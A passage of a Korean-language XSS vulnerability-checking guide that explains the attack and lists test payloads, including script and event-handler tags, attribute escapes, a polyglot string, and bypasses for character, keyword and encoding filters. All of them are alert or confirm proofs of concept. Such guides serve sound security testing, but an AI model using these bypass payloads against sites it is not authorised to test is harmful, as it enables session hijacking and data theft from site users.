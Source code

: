 # Cross-Site Scripting (XSS) 취약점 점검 가이드

이 문서는 웹 애플리케이션의 XSS(Cross-Site Scripting) 취약점을 점검하고 대응하기 위한 페이로드와 조치 방법을 정리한 가이드입니다.

---

## 1. XSS 정의 & 원리 💡

**XSS (Cross-Site Scripting)**는 공격자가 웹 애플리케이션에 악의적인 스크립트를 삽입하여 다른 사용자의 브라우저에서 실행되게 하는 공격 기법입니다. 사용자가 입력한 값을 검증 없이 그대로 페이지에 표시할 때 발생하며, 이 스크립트를 통해 공격자는 사용자의 세션 쿠키 탈취, 개인정보 유출, 악성 사이트 리다이렉션 등 다양한 악의적 행위를 할 수 있습니다.

**핵심 원리**는 애플리케이션이 사용자의 입력을 '신뢰할 수 없는 데이터'로 취급하지 않고, '실행 가능한 코드'의 일부로 해석하여 페이지를 동적으로 생성할 때 발생합니다.

---

## 2. 기본 페이로드 💉

가장 일반적이고 기본적인 형태의 XSS 페이로드입니다.

- **기본 스크립트 태그**
  - `<script>` 태그를 사용하여 직접 자바스크립트를 실행합니다.
    ```html
    <script>alert(1111)</script>
    ```

- **`<script>` 태그 우회**
  - `<script>`와 같은 일반적인 태그 사용이 차단되었을 때, 다른 태그의 이벤트 핸들러를 이용합니다.
    ```html
    <details onpointerover=confirm(1111)></details>
    <svg/onload=confirm(1111)/>
    ```

- **속성(Attribute) 값 내부에서 실행**
  - HTML 태그의 속성 값 내부에서 이벤트 핸들러를 삽입하여 사용자의 특정 행동(키 입력, 포커스 등) 시 스크립트가 동작하게 합니다. 버튼 클릭과 같은 사용자 인터랙션이 필요할 수 있습니다.
    ```html
    " onkeydown=confirm(1111) contenteditable onfocus="
    ```
    *`contenteditable`과 `onfocus`를 함께 사용하면 해당 요소에 포커스가 갈 때 바로 스크립트가 실행되도록 유도할 수 있습니다.*

- **Polyglot XSS**
  - 다양한 웹 환경(HTML, JavaScript, URL 등)에서 모두 유효하게 해석되어 실행될 수 있는 단일 페이로드입니다. 복잡한 필터링 환경을 우회하는 데 효과적입니다.
    ```javascript
    javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert(1)>>>
    ```

---

## 3. 상황별 우회 페이로드 및 점검 방법 ⚙️

다양한 필터링 환경과 코드 컨텍스트에 따라 XSS를 성공시키기 위한 방법들입니다.

### 3.1. 컨텍스트(Context) 분석 및 탈출

먼저 입력 값이 HTML 문서의 어느 위치에 삽입되는지 파악하는 것이 중요합니다.

- **태그의 속성 값 내부에 입력될 경우**
  - `"` (큰따옴표)나 `'` (작은따옴표)를 닫아 기존 속성을 탈출하고, 새로운 이벤트 핸들러 속성을 삽입합니다.
  - **[예시]** `<input type="text" value="[입력 값]">`
    ```html
    <input type="text" value="" onpointerover=confirm(1111)">
    ```

- **태그와 태그 사이에 입력될 경우**
  - `</tag>`로 기존 태그를 닫거나, 새로운 태그(`<script>`, `<svg>` 등)를 삽입합니다.
  - **[예시]** `<a href="test.com">[입력 값]</a>`
    ```html
    <a href="test.com"></a><script>alert(1111)</script></a>
    ```

### 3.2. 주요 특수문자 필터링 우회

| 필터링 문자 | 우회 기법 및 페이로드 예시                                                                                             |
| :---------- | :----------------------------------------------------------------------------------------------------------------- |
| **< , >** | 입력 값이 태그 속성으로 들어갈 때, 태그 생성 없이 이벤트 핸들러만 삽입합니다.<br> `<input value="test" onpointerover=confirm(1111)/>` |
| **( , )** | 백틱(`` ` ``)을 사용하여 함수를 호출합니다. (일부 브라우저에서만 동작)<br> `<img src=x onerror=alert`1`>`                         |
| **" , '** | 태그 속성 값에 따옴표가 필요 없는 경우, 따옴표 없이 페이로드를 작성합니다.<br> `<svg onload=alert(1)>`                             |
| **공백(space)** | 슬래시(`/`)를 공백 대신 사용합니다. (주로 SVG 태그에서 유효)<br> `<svg/onload=alert(1)/>`                                       |

### 3.3. 키워드 및 함수 필터링 우회

- **`script` 키워드 필터링**
  - **단어 중간에 키워드 삽입**: 필터링 로직이 `script`를 찾아 제거할 경우, 이를 역이용합니다.
    ```html
    <scr<script>ipt>alert(1111)</scr<script>ipt>
    ```
  - **다른 태그 사용**: `<svg>`, `<img>`, `<details>`, `<iframe>` 등 스크립트 실행이 가능한 다른 태그를 활용합니다.
    ```html
    <img src=x onerror=alert(1)>
    ```

- **`alert`, `confirm`, `prompt` 함수 필터링**
  - **문자열 조합**: 문자열을 합치거나 `window` 객체를 통해 함수를 동적으로 호출합니다.
    ```html
    <svg onload="window['ale'+'rt'](1)"></svg>
    <iframe onload="this.contentWindow.constructor.constructor('alert(1)')()"></iframe>
    ```
  - **Base64 인코딩**: `data:` 스킴과 Base64 인코딩을 활용해 스크립트를 숨깁니다.
    ```html
    <meta HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgxMTExKTwvc2NyaXB0Pg==">
    ```
    *위 Base64는 `<script>alert(1111)</script>`를 인코딩한 값입니다.*

### 3.4. 인코딩을 이용한 우회

- 필터링 시스템이 특정 인코딩만 해석하는 경우, 다른 종류의 인코딩을 사용하여 우회할 수 있습니다.
- **HTML Entity 인코딩**: `href`, `src` 등 일부 속성에서는 HTML 엔티티가 디코딩되어 실행됩니다.
  ```html
  <a href="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">Click Me</a>

